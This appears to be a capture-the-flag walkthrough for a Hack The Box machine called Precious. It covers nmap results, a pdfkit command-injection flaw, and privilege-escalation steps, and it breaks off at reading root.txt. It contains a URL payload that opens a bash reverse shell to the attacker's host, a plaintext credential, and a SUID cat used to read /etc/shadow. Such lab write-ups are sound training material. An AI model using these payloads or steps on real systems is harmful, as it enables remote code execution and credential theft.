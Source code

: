 # Precius

### Nmap:

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp   open  http        nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://precious.htb/
9000/tcp open  cslistener?
```

### precius.htb

After investigating the web, we discober the possibility to upload html files from our local http server to the remote machine and receive the pdf.

To upload a  html file: `-m http.server 8888` and create a web.html example in that folder.

Part of the esponse to the Post request:

```
<rdf:Description rdf:about=''
  xmlns:dc='http://purl.org/dc/elements/1.1/'>
  <dc:creator>
   <rdf:Seq>
    <rdf:li>Generated by pdfkit v0.8.6</rdf:li>
   </rdf:Seq>
  </dc:creator>
 </rdf:Description>
</rdf:RDF>
</x:xmpmeta>
```

The file is created with pdfkit v0.8.6

Searching on google we find this web with a vulnerability:

{% embed url="https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795" %}

So we try with the same command `sleep 5`

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

And after 5 seconds, we obtain the prompt with the PDF :clap:

So we try the same with a reverse shell:

On our machine `nc -lnvp 4444`

On the web(using a bash reverse shell):

```bash
http://10.10.16.81:8888/?name={'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.16.81/4444 <&1'`'}
```

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Now we are on the system as ruby.

In the .bundle folder, there is a file config with the henry's credentials `henry:Q3c1AqGHtoI0aXAYFH`

Testing SUID with `find / -perm -4000 2> /dev/null` there are several options. One is cat, so lets try read the /etc/shadow. Works!

Lets try to read /root/root.txt



